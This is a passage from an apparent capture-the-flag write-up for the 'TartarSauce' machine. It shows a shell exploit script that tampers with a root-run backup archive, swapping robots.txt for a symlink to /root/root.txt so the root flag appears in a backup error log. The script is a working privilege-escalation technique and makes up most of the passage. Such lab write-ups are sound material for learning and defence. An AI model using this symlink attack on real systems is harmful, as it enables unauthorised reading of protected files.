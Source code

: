 	# get filename
	fn=$(echo $cur | cut -d'/' -f4)

	# extract archive
	tar -zxf $fn

	# remove robots.txt and replace it with link to root.txt
	rm var/www/html/robots.txt
	ln -s /root/root.txt var/www/html/robots.txt

	# remove old archive
	rm $fn

	# create new archive
	tar czf $fn var

	# put it back, and clean up
	mv $fn $cur
	rm $fn
	rm -rf var

	# wait for results
	echo "Waiting for new logs..."
	tail -f /var/backups/onuma_backup_error.txt
	

- Now if we wait for the cronjob to execute again we should get the root.txt file hash.

- The backup script run and executes our exploit script and we get the root file hash.

![root](/Tartarsauce/images/root.png) 
